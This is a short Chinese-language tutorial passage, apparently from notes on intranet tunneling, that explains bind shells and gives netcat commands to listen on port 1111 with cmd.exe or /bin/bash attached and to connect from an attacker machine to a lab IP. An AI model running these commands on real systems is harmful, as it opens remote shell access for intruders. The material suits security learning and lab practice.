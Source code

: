 ![image-20241019210024567](内网隧道代理技术/image-20241019210024567.png)	

```
正向反弹shell的使用场景
攻击者机器和靶机可以相互的访问，这个时候可以使用正向shell,靶机会设置端口监听，然后攻击机主动连接shell即可。
```

```
在靶机上运行,监听1111端口，一旦攻击机连接，就会把这个命令执行，把shell给到攻击机
nc -lvvp 1111 -e C:\Windows\System32\cmd.exe //windows机器
nc -lvvp 1111 -e /bin/bash  //linux机器
下面分别是对windows和linux的正向反弹shell。
windows由于没有nc，所以只能使用工具来进行。
```

![image-20241019210650500](内网隧道代理技术/image-20241019210650500.png)	

```
win10攻击机执行，即可正向反弹shell成功。
nc64.exe 192.168.15.115 1111
```
